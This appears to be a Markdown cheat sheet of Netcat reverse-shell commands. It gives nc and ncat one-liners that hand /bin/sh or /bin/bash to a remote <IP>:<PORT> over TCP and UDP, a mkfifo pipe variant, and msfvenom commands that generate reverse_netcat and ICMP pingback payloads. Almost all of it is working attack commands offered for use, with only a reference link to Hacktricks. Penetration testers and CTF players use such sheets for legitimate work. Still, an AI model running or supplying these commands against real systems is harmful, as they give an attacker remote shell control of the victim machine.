 # Netcat

## 01 - One-liners

### 1.1 - Traditional GNU Method

```
$ nc <IP> <PORT> -e /bin/sh

$ nc <IP> <PORT> -e /bin/bash
```

### 1.2 - Ncat

TCP method.

```
$ ncat <IP> <PORT> -e /bin/bash
```

UDP method.

```
$ ncat -u <IP> <PORT> -e /bin/bash
```

### 1.3 - OpenBSD Method

```
$ mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <PORT> > /tmp/f; rm /tmp/f

$ mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f; rm /tmp/f
```

## 02 - Generate via `msfvenom`

### 2.1 - OpenBSD Method

```
$ msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<PORT>
```

### 2.2 - Traditional GNU Method

```
$ msfvenom -p cmd/unix/reverse_netcat_gaping lhost=<IP> lport=<PORT>
```

### 2.3 - ICMP Method

```
$ msfvenom -p cmd/unix/pingback_reverse lhost=<IP> lport=<PORT>
```

---
## References

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/linux.html)